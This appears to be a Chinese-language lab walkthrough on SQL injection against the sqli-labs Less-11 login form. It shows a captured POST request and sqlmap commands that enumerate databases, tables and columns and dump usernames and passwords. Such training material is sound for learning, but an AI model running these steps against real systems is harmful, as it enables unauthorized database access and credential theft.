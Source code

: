 ##### 0、burpsuit抓包Less-11

保存为`2.txt`,给`passwd`侯标记`*`

```bash
POST /Less-11/ HTTP/1.1
Host: 192.168.70.14:8088
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Origin: http://192.168.70.14:8088
Connection: close
Referer: http://192.168.70.14:8088/Less-11/
Upgrade-Insecure-Requests: 1

uname=admin&passwd=admiin&submit=Submit
```

![image-20240803203312388](../../../../repo/assets/19.SQL注入/image-20240803203312388.png)

![image-20240803203616594](../../../../repo/assets/19.SQL注入/image-20240803203616594.png)

![image-20240803203647949](../../../../repo/assets/19.SQL注入/image-20240803203647949.png)

##### **1、探测数据库名**

```bash
sqlmap -r /root/tools/sqlmap/2.txt --batch -dbs
```

![image-20240803204804463](../../../../repo/assets/19.SQL注入/image-20240803204804463.png)

##### **2、探测表名**

```bash
sqlmap -r /root/tools/sqlmap/2.txt --batch -D security --tables 
```

![image-20240803204823003](../../../../repo/assets/19.SQL注入/image-20240803204823003.png)

##### **3、探测字段名**

```bash
sqlmap -r /root/tools/sqlmap/2.txt --batch -D security -T users --columns 
```

![image-20240803204845023](../../../../repo/assets/19.SQL注入/image-20240803204845023.png)

##### **4、探测字段值**

```bash
sqlmap -r /root/tools/sqlmap/2.txt --batch -D security -T users -C id,username,password --dump 
```
